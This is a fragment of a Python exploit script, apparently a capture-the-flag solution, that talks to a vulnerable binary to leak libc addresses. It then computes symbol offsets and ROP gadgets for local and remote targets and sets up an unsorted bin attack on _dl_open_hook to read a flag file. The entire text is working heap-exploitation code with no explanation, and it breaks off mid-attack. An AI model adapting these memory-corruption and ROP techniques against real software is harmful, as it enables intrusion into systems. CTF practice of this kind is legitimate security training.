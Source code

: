 ```python
	ru("Size :")
	sl(str(0x6998e8)) #local
	#sl(str(0x6c28e8))
	ru("Size :")
	sl(str(0x300000))
	ru("Content :")
	sl("./flag\x00")


	#2.leak libc
	ru(">")
	s("A")
	ru("key :")
	s(b"\x22")
	ru("data :")
	s("a"*8)
	ru(">")
	ru(">")
	s("A")
	ru("key :")
	s(b"\x12")
	ru("data :")
	s("a"*0x10)
	ru(">")
	ru(">")
	s("R")
	ru("key:")
	s(b"\x12")
	ru("a"*0x10)

	libc_base=u64(ru("\n").ljust(8,b"\x00"))-libc.symbols["_IO_file_jumps"]
	#libc_base=u64(ru("\n").ljust(8,b"\x00"))-97-libc.symbols["_IO_2_1_stdout_"]
	IO_stdin=libc_base+libc.symbols["_IO_2_1_stdin_"]+0x40

	io_stdfile_0_lock=libc_base+libc.symbols["_IO_stdfile_0_lock"]
	#io_stdfile_0_lock=libc_base+0x3c3770
	
	io_file_jumps=libc_base+libc.symbols["_IO_file_jumps"]
	dl_open_hook=libc_base+libc.symbols["_dl_open_hook"]
	setcontext=libc_base+libc.symbols["setcontext"]
	_main_arena=IO_stdin+0x200
	info_addr("libc_base",libc_base)

	# 3.unsortd bin attack dl_open_hook
	# 	local
	gadget=libc_base+0x00000000000676aa
	heap=libc_base-0x301000
	ret=libc_base+0x000000000001fc1c
	rdi_ret=libc_base+0x000000000001fc6a
	rsi_ret=libc_base+0x000000000001fc1b
	rdx_ret=libc_base+0x0000000000001b92
	# 	remote
	# gadget=libc_base+0x000000000006ebbb
	# heap=libc_base-0x301000
	# ret=libc_base+0x00000000000937
	# rdi_ret=libc_base+0x000000000001fd7a
	# rsi_ret=libc_base+0x000000000001fcbd
	# rdx_ret=libc_base+0x0000000000001b92
	_open=libc_base+libc.symbols["open"]
	_read=libc_base+libc.symbols["read"]
	_write=libc_base+libc.symbols["write"]

	s(p16(((IO_stdin+0x400)&0xffff)))
```